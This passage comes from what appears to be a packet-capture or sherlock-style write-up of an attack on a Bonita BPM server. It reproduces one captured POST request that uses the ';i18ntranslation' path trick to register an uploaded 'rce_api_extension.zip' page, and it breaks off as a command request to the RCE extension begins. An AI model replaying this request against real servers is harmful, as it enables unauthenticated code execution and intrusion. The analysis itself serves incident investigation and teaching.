 ![image-20240422135027321](../img/image-20240422135027321.png)

The next request is to `/bonita/API/portal/page` which I think is activating
it or moving it into place:

    
    
    POST /bonita/API/portal/page/;i18ntranslation HTTP/1.1
    Host: forela.co.uk:8080
    User-Agent: python-requests/2.28.1
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: keep-alive
    Content-Type: application/json;charset=UTF-8
    Cookie: JSESSIONID=0AD5E14F8D1AE496444835639D0E60A9; X-Bonita-API-Token=8b71f28f-31aa-47cb-92b6-50521cd5bf92; bonita.tenant=1; BOS_Locale=en
    Content-Length: 82
    
    {"contentName": "rce_api_extension.zip", "pageZip": "tmp_2823049839936328099.zip"}
    

#### Commands

Immediately after the forth POST there’s a GET to `/bonita/API/extensions/rce`
with a command and the results come back:
